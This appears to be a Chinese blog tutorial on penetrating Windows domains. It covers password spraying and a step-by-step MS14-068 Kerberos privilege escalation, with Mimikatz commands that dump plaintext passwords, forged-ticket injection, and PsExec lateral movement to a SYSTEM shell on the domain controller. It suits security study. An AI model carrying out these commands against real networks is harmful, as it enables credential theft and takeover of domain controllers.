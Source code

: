 ```yaml
---
layout: post
title:  内网渗透思路
categories: 安全知识
description:  内网渗透思路
keywords: 渗透
---
```


# 渗透流程


1. 收集域控信息
2. 密码爆破
3. 用户提权

## 二、域密码喷洒

[利用一个powershell工具完成 DomainPasswordSpray
](https://blog.csdn.net/qq_41874930/article/details/109308519)
利用工具：[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)


## 三、 用户提权

使用 Mimikatz

https://www.cnblogs.com/-mo-/p/11890232.html

# Kerberos域用户提权漏洞（MS14-068）分析与防范

**生效范围：**  windows (2003/2008/2012/7/8)

## 工具下载
Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases


##  1、查看域控制器的补丁安装情况
微软针对 MS14-068 漏洞提供补丁为 `KB3011780` 。输入命令查看补丁情况：

```
wmic qfe get hotfixid 

```
![](https://ask.qcloudimg.com/http-save/yehe-5487096/0xwlav6oci.png?imageView2/2/w/1620)
可以看到域控机器没有安装补丁。

## 2、查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```dotnetcli
whoami /user
```

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```
## 3、查看域控制器的主机名

获取域控主机名 / IP 地址

```dotnetcli
net group "Domain controllers" /domain
********
ping 主机名

```

![](https://i.loli.net/2020/01/09/C8m2XV63IKjzMtd.png)

> 注意不要带 $ 符号

测试是否可以访问域控共享文件

```dotnetcli
dir \\域控主机名.域名\c$

```

![](https://i.loli.net/2020/01/09/SUmtaoL2AQMR5ZD.png)

可以看到显示 “拒绝访问”，这是正常，域普通用户当然没有权限访问域控共享文件，现在我们需要使用 MS14-068 提权。




## 4、利用ms14-068.exe 工具生成伪造的 kerberos 协议认证证书

MS14-068 需要几个必要的参数，SID、域用户名、域控地址，另外还需要密码，若没有密码可以使用–rc4 来使用 hsah 生成凭证

` ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip`

![](https://i.loli.net/2020/01/09/fD958LTjwCUNvJq.png)
例如：

进入 mimikatz

记住 `mimikatz 要有管理员权限`不然无法抓取内存密码，可以以管理员权限运行。

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029171807870-1810720099.gif)

 输入`privilege::debug` 权限提升，在`输入 log `会在当前文件夹下生成后面命令执行的结果方便我们查找数据，最后输入`sekurlsa::logonPasswords `抓取密码

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029172642038-1348450916.gif)

 会在当前目录生成mimikatz 日志文件

日志例如：
```dotnetcli

Authentication Id : 0 ; 434243 (00000000:00075558)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : test
Logon Server      : ABF
Logon Time        : 2022/4/22 9:44:37
SID               : S-1-5-21-2872597263-2872597263-2872597263-1111
```

 
 成功获取到明文密码，也获取了域用户sid 和域控主机名

` MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029174506417-1917631510.png)


进入 mimikatz


```
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
```

使用如下命令导入刚刚生成的伪造凭证

```
kerberos::ptc 凭证地址
```

再次访问域控的共享文件，即可发现已经成功列出目录了

>  `dir \\域控主机名.域名\c$`


![](https://i.loli.net/2020/01/09/rK3oDBlA2m8zdIx.png)

## 5. 使用 Psexec64.exe 横向移动

```dotnetcli
psesec.exe -accepteula \\IPaddress -s cmd.exe

```

![](https://i.loli.net/2020/01/09/tO6l25Wq3ak4VIT.png)

可以观察到命令提示符已经变了，且用户权限为域控的 system 权限（由于 Psexec64.exe 的 - s 原因）。看 IP 地址也可知晓已经成功登陆域控机器了。




# 知识拓展
2.查看域控制器的主机名
Nslookup -type=SRV _ldap._tcp

## 工具
https://github.com/gentilkiwi/kekeo


# 参考

https://cloud.tencent.com/developer/article/1760132

https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/